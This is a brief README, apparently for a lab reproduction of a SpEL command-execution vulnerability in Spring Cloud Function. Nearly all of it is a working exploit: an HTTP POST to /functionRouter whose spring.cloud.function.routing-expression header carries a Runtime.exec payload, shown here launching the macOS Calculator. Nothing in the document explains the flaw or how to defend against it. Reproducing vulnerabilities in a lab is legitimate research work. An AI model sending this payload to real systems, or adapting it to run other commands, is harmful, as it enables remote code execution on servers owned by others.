

## Spring-Cloud-Function-Spel命令执行漏洞

> environment：jdk17

start:
```
idea 运行SampleApplication
```

exp:
```
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8001
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

xxx


```



